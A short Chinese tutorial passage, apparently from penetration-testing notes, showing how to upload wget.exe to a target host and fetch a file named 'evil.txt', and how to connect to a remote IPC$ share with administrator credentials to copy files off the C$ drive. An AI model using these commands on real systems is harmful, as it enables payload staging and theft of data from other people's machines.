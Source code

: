 
# 4、wget

Windows环境下，可上传免安装的可执行程序wget.exe到目标机器，使用wget下载文件。

wget.exe下载：[https://eternallybored.org/misc/wget/](https://eternallybored.org/misc/wget/)

```
wget -O "evil.txt" http://192.168.28.128/imag/evil.txt
```
![20200413-4.png](../../_img\05-应急响应/1656916412390-2f27a41d-c207-4790-b0c9-9f71c05644dc.png)


# 5、ipc$文件共享
IPC$(Internet Process Connection)是共享"命名管道"的资源，它是为了让进程间通信而开放的命名管道，通过提供可信任的用户名和口令，连接双方可以建立安全的通道并以此通道进行加密数据的交换，从而实现对远程计算机的访问。

```
#建立远程IPC连接
net use \\192.168.28.128\ipc$ /user:administrator "abc123!"
#复制远程文件到本地主机
copy \\192.168.28.128\c$\2.txt D:\test
```